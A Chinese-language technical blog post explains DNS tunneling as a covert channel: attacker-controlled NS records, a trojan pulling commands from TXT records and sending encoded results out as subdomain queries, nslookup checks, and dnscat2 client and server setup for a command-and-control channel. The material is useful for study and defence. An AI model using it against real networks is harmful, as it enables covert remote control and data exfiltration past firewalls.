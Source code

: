```yaml
---
title: Intranet Space - Dns Tunneling
layout: post
date: '2018-12-18'
categories: 
permalink: "/archivers/2018-12-18/6"
description: DNS Tunneling，是隐蔽信道的一种，通过将其他协议封装在DNS协议中传输建立通信。因为在我们的网络世界中DNS是一个必不可少的服务，所以大部分防火墙和入侵检测设备很少会过滤DNS流量，这就给DNS作为一种隐蔽信道提供了条件，从而可以利用它实现诸如远程控制，文件传输等操作，现在越来越多的研究证明DNS Tunneling也经常在僵尸网络和APT攻击中扮演着重要的角色。
---
```


## 0x00 DNS隧道简介


DNS Tunneling，是隐蔽信道的一种，通过将其他协议的数据封装在DNS协议中传输建立通信。

普通的 DNS 查询过程如下:

客户端发送 DNS 请求->DNS 服务器->如果 DNS 服务器寻找不到该记录->继续递归查询->寻找该域名 的 NS 记录->询问 NS 记录指向的 DNS 服务器->DNS 服务器响应->传输给客户端。


本次通过设置一个 NS 服务器，实现了 DNS 隧道的建立，使得服务器可向客户端发送任意命令，并且回 传命令执行的结果。
DNS 隧道是隐蔽的、可加密的数据传输隧道，基于 UDP 协议，目的端口号为 53。

它的缺点就是不稳定、 传输过大文件时容易失去连接，需要重新建立。


## 0x01 DNS隧道原理

DNS 隧道简单例子:

| 类型 | 主机记录 | 记录值 | 
| - | :-: | -: | 
| NS | HACK | NS.XXX.COM | 
| A | NS | XXX.XXX.XXX.XXX | 


首先在 DNS 解析管理平台上设置一个 NS 和一个 A 记录:


当我们询问 hello.HACK.XXX.COM 时，DNS 客户端发送的查询请求会递归到主机记录 NS 指向的 XXX.XXX.XXX.XXX 服务器上。
黑客通过在 XXX.XXX.XXX.XXX 服务器上监听 53 端口，即可获得 DNS 客户端发送来的请求。

## 0x02 如何获得命令执行结果?

这里需要木马的配合，黑客会在服务器端的程序上专门设置一个 TXT 的主机记录，用于存放命令。 

木马会不断请求 COMMAND.HACK.XXX.COM，获得 TXT 的解析结果，并执行，然后将结果进行分段加密传送至 DNS 服务器，构造一个 A 记录的查询请求。

例如服务端:`set command=ipcofig`

客户端:请求 `COMMAND.HACK.XXX.COM`，得到解析结果ipconfig

操作系统执行后，返回结果一般如下:

```
WINDOWS IP Configuration:
......
```

此时木马将 WINDOWS IP Configuration 进行编码加密，可能是如下形式:

```
U2FsdGVkX19cMV2s858WNyKHm5mRXx4VXng1nK8bFG5XKQSaO52vXKIsX0IZ1pxyCdI
```

然后拼接成域名为:

```
U2FsdGVkX19cMV2s858WNyKHm5mRXx4VXng1nK8bFG5XKQSaO52vXKIsX0IZ1pxyCdI.H ACK.XXX.COM
```

服务端接收后，会使用密钥解密这串字符，得到命令执行结果。

这样反复的过程就能达到永久控制客户端的目的。


## 0x03 如何判断是否能够建立隧道?

使用 nslookup 工具查询 DNS 解析记录。

命令:

* `nslookup @114.114.114.114 baidu.com`
* `nslookup @8.8.8.8 baidu.com`
* `nslookup @内网DNS Server baidu.com`

如果均能查询到 A 记录后，再换一些不常见域名，例如:translate.google.cn 

若还是能够解析，则可以构建 DNS 隧道。

## 0x04 dnscat2

This tool is designed to create an encrypted command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network.

> **dnscat2分为客户端和服务端**

客户端配置：

```
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/client/
$ make
$ dnscat <Domain>
```

服务端配置（需要Ruby环境）：

```
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server/
$ gem install bundler
$ bundle install
$ ./dnscat2 --dns server=x.x.x.x,port=53
```
这一切的前提是按照0x01中的环境配置好后再操作。

DNS配置：

| 类型 | 主机记录 | 记录值 | 
| - | :-: | -: | 
| NS | dns | ns.payloads.online | 
| A | ns | 1.1.1.1 | 

```
# 服务器(1.1.1.1)
root@payloads:~# tcpdump udp port 53
```

```
# 客户端
nslookup hello.dns.payloads.online
```


